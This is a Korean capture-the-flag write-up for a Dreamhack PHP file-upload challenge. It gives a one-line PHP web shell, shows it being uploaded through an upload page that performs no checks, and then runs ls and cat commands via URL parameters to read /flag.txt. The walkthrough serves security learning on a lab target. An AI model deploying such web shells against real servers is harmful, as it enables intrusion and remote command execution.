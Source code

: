 ## 📍image-storage

```
php로 작성된 파일 저장 서비스입니다.
파일 업로드 취약점을 이용해 플래그를 획득하세요. 플래그는 `/flag.txt`에 있습니다.
```

이런 구조로 되어 있다.

![](../../Attachments/0D362402-3485-4BD2-9A1E-3CD287E7B182.png)

![](../../Attachments/22A765A1-9525-4935-9E30-C84DED1D3FEA.png)

아무 파일이나 업로드하면 `/upload.php`로 이동하며 저장된 경로를 보여준다.

![](../../Attachments/6A4917FA-988E-42BD-A197-6BF662234EBF.png)

List로 가보면 업로드된 폴더명과 파일명이 보인다.

![](../../Attachments/8893849E-0119-475A-BA23-4ED0B18086E3.png)


#### 소스코드

upload.php는 이용자가 업로드한 파일을 `uploads` 폴더에 복사한다.
![](../../Attachments/2122089A-A492-40EB-8E35-AA978022BC29.png)


#### 취약점

업로드한 파일에 대해 아무 검사도 하지 않으므로 웹 셸 업로드 공격에 취약하다.


#### 해결

php 웹셸을 업로드하고 방문하면 서버의 셸을 획득할 수 있다.

```php
<?php
	system($_GET[cmd]);
?>

/* 이런 파일을 업로드 하고
?cmd=ls를 URL로 주면 공격 가능! */
```

구글링해서 찾은 웹셸을 `.php`로 저장하고 업로드한 뒤 저장된 경로로 들어간다.

```
http://host3.dreamhack.games:21649/uploads/webshell.php
```

여기서 `?cmd=ls`를 URL로 주면 공격 가능하다고 되어 있다. 넣어보면 커맨드가 작동한다.
![](../../Attachments/C51C5155-A75E-4758-A618-93CB0A226AB4.png)

상위 경로로 가본다.
```
http://host3.dreamhack.games:21649/uploads/webshell.php?cmd=ls%20../
```
![](../../Attachments/C924132D-06F3-4A27-92E1-30D4AA6D2F97.png)
- `%20`: URL에서 공백을 나타냄

루트 경로로 찾아간다.
```
http://host3.dreamhack.games:21649/uploads/webshell.php?cmd=ls%20/
```
![](../../Attachments/030E2FDE-D5B3-488A-8BC3-D4641C3E22F4.png)

`flag.txt`의 경로를 알아냈으니, `cat` 커맨드로 `flag.txt`를 읽어보면 끝!
```
http://host3.dreamhack.games:21649/uploads/webshell.php?cmd=cat%20/flag.txt
```
![](../../Attachments/B6803AEE-18CB-4AF2-821F-C99892977B48.png)
